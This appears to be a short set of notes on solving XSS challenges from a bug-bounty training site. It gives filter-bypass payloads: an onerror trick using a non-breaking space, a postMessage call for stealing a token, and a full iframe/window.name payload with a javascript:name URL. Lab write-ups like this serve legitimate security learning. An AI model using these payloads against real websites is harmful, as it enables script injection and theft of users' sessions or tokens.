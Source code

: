 ### Give some space to this XSS Filter

- Check the page source, read the JS code, understand it how it is working, how it is filtering the payload.

- try different payloads with tag on URI with fragment(\#)

- On fileformat.info check for "space" in search box. And choose break space which in UTF8 is %C2%A0

Now try - 

#onerror=%C2%A0a()

Since above work, as checked in page source.

we can try:

\#onerror=%C2%A0alert(socument.domain)


### Steal teh token!

Use top.postmessage({uname:"test"},\*)

### This strict URL filter should prevent XSS, right?

solution: data:text/html,<iframe name="<svg onload=alert(document.domain)>" src=https://www.bugbountytraining.com/challenges/challenge-6.php?url=javascript:name>

explanation: When using the javascript pseudo scheme, if the returned value is a string, browsers will write it onto the page like document.write. This is why some bookmarklets have a void(0) at the end to prevent the results accidentally return a string.

Another thing to know is the window.name property persists even after navigation, and we can control this value.

So, we can assign window.name with a XSS payload in HTML, then use javascript:name so that it writes the payload onto the page.


